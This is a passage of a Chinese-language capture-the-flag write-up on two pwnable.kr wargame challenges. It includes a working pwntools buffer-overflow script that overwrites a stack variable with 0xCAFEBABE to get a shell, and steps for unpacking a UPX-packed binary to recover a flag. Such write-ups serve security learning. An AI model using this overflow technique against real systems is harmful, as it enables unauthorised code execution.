   

### 题目解析

  

很明显的栈溢出，将key的值覆盖为`0xCAFEBABE`就可以了

  

**payload**

  

from pwn import *
context.log_level='debug'

p=remote("pwnable.kr",9000)
#print p.recvline()
payload='a'*52
payload+=p64(0xCAFEBABE)
p.sendline(payload)

p.interactive()

  

## flag

  

### 题目描述

  

虽然在pwnable上面，但是是一道逆向题

  

Papa brought me a packed present! let's open it.

  

Download:[http://pwnable.kr/bin/flag](http://pwnable.kr/bin/flag)

  

This is reversing task. all you need is binary

  

### 题目解析

  

刚拿到就直接放进了ida中，结果只显示4个函数，并且有的还无法F5。后来看了wp才知道程序被upx压缩过了

  

`upx -d flag`解压缩，ida分析程序

  

int __cdecl main(int argc, const char **argv, const char **envp)
{
  char *dest; // ST08_8

  puts((__int64)"I will malloc() and strcpy the flag there. take it.");
  dest = (char *)malloc(100LL);
  strcpy(dest, flag);
  return 0;
}
